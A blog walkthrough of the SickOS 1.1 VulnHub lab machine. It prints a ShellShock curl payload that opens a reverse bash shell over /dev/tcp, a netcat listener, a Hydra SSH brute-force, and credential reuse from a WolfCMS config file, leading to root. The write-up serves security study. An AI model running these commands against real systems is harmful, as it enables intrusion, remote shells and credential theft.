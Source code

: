 ```yaml
---
layout: post
title: "SickOS 1.1 Walkhrough"
tags: [hacking, lab]
---
```

![Sickos 1.1 Walkthrough]({{ site.url }}/img/sickos1.1-walkthrough.png)

This is a walkthrough of [SickOS 1.1][sickos1.1-url] found on [VulnHub][vulnhub-url]. The objective is to compromise the VM, gain
root privileges, and find the flag. We need to treat this machine as a remote server, so we can't use any kernel tricks here.

After booting the virtual machine, I needed to find the IP address of the box, so I did a simple ping sweep.

{% highlight bash %}
nmap -n -sP 172.16.49.0/24
{% endhighlight %}

![SickOS 1.1 Ping Sweep]({{ site.url }}/img/sickos1.1-ping-sweep.png)

The IP address of the SickOS 1.1 server is 172.16.149.133. I knew this because the Kali VM IP address is 172.16.149.132. Now
that I have the IP of the SickOS server I need to identify any open ports. Running a nmap scan of the host will give me the 
information I need to get started:

{% highlight bash %}
nmap -n -Pn -sS -p - 172.16.149.133
{% endhighlight %}

![SickOS 1.1 Nmap Scan]({{ site.url }}/img/sickos1.1-nmap-scan.png)

The results show that we have what looks like Squid Proxy Server open on port 3128 and SSH on port 22. Next I want to run a 
Nikto scan to look for any low hanging fruit. Be sure to use the "-useproxy" flag so the scan runs through the proxy.

{% highlight bash %}
nikto -h http://172.16.149.133 -useproxy 172.16.149.133:3128
{% endhighlight %}

![SickOS 1.1 Nikto Scan]({{ site.url}}/img/sickos1.1-nikto-scan.png)

Some interesting results return from the Nikto scan. Here we can see that the "/cgi-bin/status" portion of the site is vulnerable
to ShellShock. We will use this an attack vector to exploit the server and gain access to the box. Open a second terminal window
and establish a netcat listener.

{% highlight bash %}
nc -lvnp 666
{% endhighlight %}

Now we exploit ShellShock using curl.
{%  highlight bash %}
curl -H "User-Agent: () { ;: }; /bin/bash -i >& /dev/tcp/172.16.149.132/666 0&>1" http://172.16.149.133/cgi-bin/status -x http://172.16.149.133:3128
{% endhighlight %}

![SickOS 1.1 ShellShock Exploit]({{ site.url }}/img/sickos1.1-shellshock-exploit.png)

After running the curl command, switch over to the terminal window that is running our Netcat listener. You should have been 
given a shell prompt.

![SickOS 1.1 Reverse Shell Prompt]({{ site.url }}/img/sickos1.1-reverse-shell-prompt.png)

Now that we have access on the box we need to gather some information. First I am going to check out the "/etc/passwd" file.

{%  highlight bash %}
cat /etc/passwd
{% endhighlight %}

![SickOS 1.1 /etc/passwd]({{ site.url }}/img/sickos1.1-etc-passwd.png)

In the results we see that an account exists with the username "sickos", a directory in "home", and that the user has shell access
on the box. Now I want to check out the "/etc/group" file for more information.

{%  highlight bash %}
cat /etc/group
{% endhighlight %}

![SickOS 1.1 /etc/group]({{ site.url }}/img/sickos1.1-etc-group.png)

The results show that the user "sickos" is part of the "adm" group. This is indicative of the user being able to use the sudo command to
access root. Armed with this info I am going to attempt bruteforce SSH to see if I can get the password. I figure I will let hydra
run while I poke around the box looking for any further useful information.

{% highlight bash %}
hydra -t 10 -l sickos -P /usr/share/wordlist/rockyou.txt -vV 172.16.149.133 ssh
{% endhighlight %}

I tried to get this started several times with no avail - looks like there might be something blocking it, so I am going to continue
gathering information on the box. Because this server is acting as a webserver - typically web files are hosted in "/var/www," so I am
going to change to the directory and list out all files.

{% highlight bash %}
cd /var/www/
ls
{% endhighlight %}

![SickOS 1.1 ls /var/www]({{ site.url }}/img/sickos1.1-ls-var-www.png)

Here we see a directory called "wolfcms" - this contains the website and configuration files. Within the "wolfcms" dir there is a
file called "config.php." These config files typically have database usernames, passwords, and configuration settings for the 
website, so I am going to take a look.

{% highlight bash %}
cat config.php|head -20
{% endhighlight %}

![SickOS 1.1 config.php Contents]({{ site.url }}/img/sickos1.1-config.php-contents.png)

In the "config.php" is a database username and password. One thing about users' is they tend to use the same password everywhere,
so let's try using it with SSH and the "sickos" user. 

{% highlight bash %}
ssh sickos@172.16.149.133
{% endhighlight %}

The SSH username and pasword worked! Since we know "sickos" is in sudoes lets switch to "root" and see what is in the "/root"
directory.

{% highlight bash %}
sudo su -
# enter sickos password
ls
{% endhighlight %}

Inside the "/root" directory is the flag, cat the file out and we have completed the objective!

![SickOS 1.1 Cat Flag]({{ site.url }}/img/sickos1.1-cat-flag.png)

[sickos1.1-url]: https://www.vulnhub.com/entry/sickos-11,132/
[vulnhub-url]: https://www.vulnhub.com/